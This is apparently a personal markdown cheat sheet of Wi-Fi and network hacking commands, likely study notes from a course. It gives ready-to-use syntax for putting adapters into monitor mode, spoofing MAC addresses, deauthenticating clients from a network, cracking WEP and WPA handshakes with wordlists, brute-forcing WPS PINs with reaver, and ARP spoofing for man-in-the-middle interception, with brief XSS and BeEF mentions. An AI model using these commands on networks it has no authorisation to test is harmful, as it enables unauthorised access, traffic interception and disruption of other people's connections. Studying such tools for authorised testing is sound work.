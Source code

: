 # dump
Contains non relevant info that I wanna dump


## Table of Content
1. Network Hacking
    1. Pre-connection Attack
    1. Gaining Access
    1. Post-connection Attack
1. Gaining Access
1. Post exploitation
1. Website Hacking 
---

```
iwconfig : Gived info about wireless adapter
ifconfig [interface name] down/up : Make the interface up/down
airmon-ng check kill
iwconfig [interface-name] mode monitor : Changes wireless mode from managed to monitor
ifconfig [interface-name] hw ether [Your_Desired_MAC_Adress]
```

### airodump-ng : Used by wireless interface in monitor mode to capture packet
```
airodump-ng [interface-name] : Sniffs all the wireless network around with their protection level(Open/WEP/WPA/WPA2) and other critical info

airodump-ng --band [a,b,g,n] [interface-name] : capture packet in band specified

airodump-ng --bssid [bssid] --channel [channel number] --write [filename] [interface-name]

aireplay-ng --deauth  100000 -a [access mac] -c [client mac] [interface-name] : Disable a user from using wi-fi
```

### aircrack-ng : Used to crack WEP(IV + key) 
```
aircrack-ng [cap-file-name]
```

### aireplay-ng : Used to generate fake traffic. It comes handy if target wifi is not generating enough traffic
```
aireplay-ng --fakeauth 0 -a [mac-of-AP] -h [mac-of wireless-adapter] [interface-name] : For assocaiation
aireplay-ng --arpreplay  -b [mac-of-AP] -h [mac-of wireless-adapter] [interface-name]
```

### Cracking WPA/WPA2
Only difference in encrption used for message integrity
WPA: TKIP
WPA2: CCMP

WPS: Can be exploited. It was designed to simplify connecting to wireless. Only way to prevent against this is enabling PBC(Push button connect)

```
wash --interface [interface-name] : Shows all the wifi with wps enabled
reaver --bssid [bssid] --channel [channel number] --interface [interface-name] -vvv --no-associate : Bruteforce 8 bit WPS pin which is then used to compute WPA Passkey
```

#### Wordlist Attack
```
MIC of handshake + word list 
aircrack-ng [handshake-capture-file]-w [wordlist] 
```
---
#### Creating Wordlist
crunch [min] [max] [character] -t [pattern] -o [filename]


---
### NetDiscover and Nmap
```
netdiscover -r [range-of-ip] : IPs and Vendor of devices connected to the same network
```

Nmap: Gives information about open port, operating system and running services.
Zenmap: GUI warpper over Nmap


### MITM Attack
Multiple ways to attain this. One way is ARP spoofing.

arpspoof -i [interface-name] -t [target_ip] [gateway_ip]
arpspoof -i [interface-name] -t [gateway_ip] [target_ip]

After these two commands, arp is spoofed but still we has to force out computer to work as router
echo 1 > /proc/sys/ipv4/ip_forward


BetterCap: better than arpspoof.


### XSS
Persistent XSS : Stored in DB
Reflected XSS : Run on a specific URL
DOM based XSS : 

**Beef** : Used for XSS attack

### ZAP : Zed attach proxy
Automatically find vulnerabilities in web application.
